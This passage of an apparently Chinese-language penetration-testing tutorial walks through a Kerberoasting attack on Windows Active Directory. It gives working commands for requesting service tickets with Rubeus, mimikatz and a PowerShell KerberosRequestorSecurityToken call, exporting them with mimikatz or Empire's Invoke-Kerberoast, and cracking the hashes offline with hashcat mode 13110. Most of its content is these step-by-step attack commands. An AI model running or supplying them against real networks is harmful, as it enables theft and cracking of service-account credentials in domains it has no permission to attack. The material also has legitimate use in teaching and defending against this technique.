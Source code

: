 然后执行 Rubeus.exe kerberoast 指令即可

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMiczehQAjz4Z9mdnzicHjmq3r5JVAjtEkibbtvRDmvBXhVpf1HicChibEribA/640?wx_fmt=png)

**2.mimikatz**

mimikatz 真的神器。  
通过命令 kerberos::ask /target: 你所指定的 SPN,

即可通过认证的方式得到一个 ST。  
然后我们在 kerberos::list 里可以看到我们想要的 ST

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWM3KWKeQCczAF7QVoLCXKL6mxsmPIibfU8aOI7pF3tqBjQceRLu2RIkdQ/640?wx_fmt=png)

**3.powershell**

越来越发现 powershell 在域渗透中的重要性了  
输入以下指令，即可完成 HASH 获取

```
Add-Type -AssemblyName System.IdentityModelNew-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MySQL/win7.xie.com:3306/MySQL"
```

然后 mimikatz 导出即可

### **How to export hash**

获得了 ST 票据，但怎么导出？

**1.mimikatz**

导出所有票据

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMnlZqicpuD4ibcJBrc0vQiap9f683WMaBaMmOIkOsP5RzgiaI83ib9ofPTkA/640?wx_fmt=png)

可以发现生成了 kirbi 文件。这就是我们所需要的 hash 了

**2.Empire Powershell 框架**

github:https://github.com/EmpireProject/Empire

我们通过这个框架可以导出 hashcat 格式的 hash.

```
Import-Module .\Invoke-Kerberoast.ps1;Invoke-Kerberoast -outputFormat Hashcat
```

![](https://mmbiz.qpic.cn/mmbiz_png/zojWxwXWulO6cX5ngkMOrjGu5hiaU8jWMIz9emFxYXEERr9Sxicc63Vdr0s5BjLuxOV5YH5acj0EFg5pJ08wm5RA/640?wx_fmt=png)

### **How to crack HASH**

如何破解 HASH?

**1.HASHCAT**

这个工具需要让 hash 格式为 hashcat 模式才能进行破解。kribi 文件不能放入 hashcat 进行破解.

```
hashcat -m 13110 pass.txt hash.txt
```
